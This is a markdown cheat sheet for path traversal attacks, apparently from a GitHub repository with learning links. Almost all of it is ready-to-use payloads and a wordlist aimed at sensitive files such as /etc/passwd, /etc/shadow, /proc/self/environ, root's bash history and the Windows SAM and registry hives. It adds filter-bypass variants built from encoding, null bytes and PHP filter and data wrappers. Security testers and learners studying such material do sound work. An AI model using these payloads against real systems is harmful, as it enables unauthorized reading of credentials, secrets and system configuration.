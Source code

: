 # Path Traversal Cheat Sheet

  [Common Paths to Read](#common-paths-to-read)
  [Common Method](#common-method)
  [Bypassing Defence Mechanism](#bypassing-defence-mechanism)
  [File Extension with Null Byte Bypass](#file-extension-with-null-byte-bypass)
  [Linux Path Traversal Payloads](#linux-path-traversal-payloads)
  [Windows Path Traversal Payloads](#windows-path-traversal-payloads)
  [URL Encoded Variants](#url-encoded-variants)
  [Wordlist](#wordlist)
  [External Cheat Sheet](#external-cheat-sheet)
  [To Learn](#to-learn)

### Common Paths to read
```txt
/etc/passwd
/var/log/apache2/access.log
```
___
### Common Method
```txt
../../../etc/passwd >> For linux

..\..\..\windows\win.ini >> For windows
```
#### Bypassing Defence Mechanism
1. Sequence block bypass >> ....//....//....//....//etc/passwd
2. Sequence block bypass2 >> ..//..//..//..//etc/passwd
3. Encoding ../ >> %2e%2e%2f
4. Absolute path >> /var/www/images/../../../etc/passwd
5. Absolute path2 >> /var/www/html/..//..//..//etc/passwd
6. Using null byte >> ../../../etc/passwd%00.png
7. Using PHP wrappers >> php://filter/convert.base64-encode/resource=/etc/passwd
8. Using Data wrappers >> data:text/plain,<?php%20phpinfo();%20?>

### File extension with null byte bypass
```Note:``` Don't forget to adjust the file with extension. Ex: ```/etc/passwd%00.png```
```
/etc/passwd%00
../../../etc/passwd%00
..//..//..//..//etc/passwd%00
....//....//....//....//etc/passwd%00
/var/www/images/../../../etc/passwd%00
/var/www/images/..//..//..//..//etc/passwd%00
/var/www/images/....//....//....//....//etc/passwd%00
%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd%00
..%252f..%252f..%252fetc/passwd%00
%2Fetc%2Fpasswd%00
%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd%00
%2e%2e%2f%2f%2e%2e%2f%2f%2e%2e%2f%2fetc%2e%2e%2fpasswd%00
```
### Linux Path Traversal Payloads
```
/etc/passwd
../../../etc/passwd
../../../../../../../etc/passwd
..//..//..//..//etc/passwd
....//....//....//....//etc/passwd
/var/www/images/../../../etc/passwd
/var/www/images/..//..//..//..//etc/passwd
/var/www/images/....//....//....//....//etc/passwd
%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
..%252f..%252f..%252fetc/passwd
%2Fetc%2Fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
%2e%2e%2f%2f%2e%2e%2f%2f%2e%2e%2f%2fetc%2e%2e%2fpasswd
/etc/passwd%00
../../../etc/passwd%00
..//..//..//..//etc/passwd%00
....//....//....//....//etc/passwd%00
%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd%00
..%252f..%252f..%252fetc/passwd%00
%2Fetc%2Fpasswd%00
%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd%00
../../../../etc/group
../../../../../../../../etc/passwd
../../../../../../../../etc/hosts
../../../../../../../../etc/shadow
../../../../../../../../proc/self/environ
../../../../../../../../var/mail/root
../../../../../../../../root/.bash_history
../../../../../../../../etc/apache2/apache2.conf
../../../../../../../../etc/mysql/my.cnf
../../../../../../../proc/version
../../../../../../../proc/cpuinfo
../../../../../../../proc/meminfo
../../../../../../../proc/self/cmdline
../../../../../../../proc/self/status
../../../../../../../proc/self/mounts
../../../../../../../proc/self/mountinfo
../../../../../../../proc/self/fd
../../../../../../../proc/self/environ
```
### Windows Path Traversal Payloads
```
..\..\..\windows\win.ini
..\..\..\..\..\..\windows\win.ini
%5C%5C%2E%2E%5C%2E%2E%5Cwindows%5Cwin.ini
..%5C..%5C..%5Cwindows%5Csystem32%5Cdrivers%5Cetc%5Chosts
%2e%2e%5c%2e%2e%5cwindows%5csystem.ini
..%255c..%255c..%255cwindows%255cwin.ini
../../../../../../../../boot.ini
../../../../../../../../windows/system32/config/system
../../../../../../../../windows/system32/config/software
../../../../../../../../windows/system32/config/sam
../../../../../../../../windows/repair/sam
../../../../../../../../windows/repair/system
../../../../../../../../windows/win.ini
../../../../../../../../windows/system.ini
/../../../../../../../../boot.ini
/../../../../../../../../windows/win.ini
/../../../../../../../../windows/system.ini
/../../../../../../../../windows/system32/config/system
/../../../../../../../../windows/system32/config/software
/../../../../../../../../windows/system32/config/sam
```
### URL Encoded Variants
```
%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2fetc%2fpasswd
..%252f..%252f..%252fetc%252fpasswd
%2e%2e%2f..%2f..%2f..%2fetc%2fpasswd
%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
%2fvar%2fwww%2fimages%2f..%2f..%2f..%2f..%2fetc%2fpasswd
%2e%2e%2f%2e%2e%2fetc%2fshadow%00
%2fvar%2fwww%2fimages%2f..%2f..%2f..%2f..%2fetc%2fshadow%00
```
### Wordlist
```txt
/etc/passwd
../../../etc/passwd
../../../../../../../etc/passwd
..//..//..//..//etc/passwd
....//....//....//....//etc/passwd
/var/www/images/../../../etc/passwd
/var/www/images/..//..//..//..//etc/passwd
/var/www/images/....//....//....//....//etc/passwd
%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
..%252f..%252f..%252fetc/passwd
%2Fetc%2Fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
%2e%2e%2f%2f%2e%2e%2f%2f%2e%2e%2f%2fetc%2e%2e%2fpasswd
/etc/passwd%00
../../../etc/passwd%00
..//..//..//..//etc/passwd%00
....//....//....//....//etc/passwd%00
%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd%00
..%252f..%252f..%252fetc/passwd%00
%2Fetc%2Fpasswd%00
%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd%00
../../../../etc/group
../../../../../../../../etc/passwd
../../../../../../../../etc/hosts
../../../../../../../../etc/shadow
../../../../../../../../proc/self/environ
../../../../../../../../var/mail/root
../../../../../../../../root/.bash_history
../../../../../../../../etc/apache2/apache2.conf
../../../../../../../../etc/mysql/my.cnf
../../../../../../../proc/version
../../../../../../../proc/cpuinfo
../../../../../../../proc/meminfo
../../../../../../../proc/self/cmdline
../../../../../../../proc/self/status
../../../../../../../proc/self/mounts
../../../../../../../proc/self/mountinfo
../../../../../../../proc/self/fd
../../../../../../../proc/self/environ
..\..\..\windows\win.ini
..\..\..\..\..\..\windows\win.ini
%5C%5C%2E%2E%5C%2E%2E%5Cwindows%5Cwin.ini
..%5C..%5C..%5Cwindows%5Csystem32%5Cdrivers%5Cetc%5Chosts
%2e%2e%5c%2e%2e%5cwindows%5csystem.ini
..%255c..%255c..%255cwindows%255cwin.ini
../../../../../../../../boot.ini
../../../../../../../../windows/system32/config/system
../../../../../../../../windows/system32/config/software
../../../../../../../../windows/system32/config/sam
../../../../../../../../windows/repair/sam
../../../../../../../../windows/repair/system
../../../../../../../../windows/win.ini
../../../../../../../../windows/system.ini
/../../../../../../../../boot.ini
/../../../../../../../../windows/win.ini
/../../../../../../../../windows/system.ini
/../../../../../../../../windows/system32/config/system
/../../../../../../../../windows/system32/config/software
/../../../../../../../../windows/system32/config/sam
%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2fetc%2fpasswd
..%252f..%252f..%252fetc%252fpasswd
%2e%2e%2f..%2f..%2f..%2fetc%2fpasswd
%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
%2fvar%2fwww%2fimages%2f..%2f..%2f..%2f..%2fetc%2fpasswd
%2e%2e%2f%2e%2e%2fetc%2fshadow%00
%2fvar%2fwww%2fimages%2f..%2f..%2f..%2f..%2fetc%2fshadow%00
```
### External Cheat Sheet
https://github.com/JahTheTrueGod/Directory-Traversal-Cheat-Sheet
### To learn
https://tryhackme.com/r/room/filepathtraversal
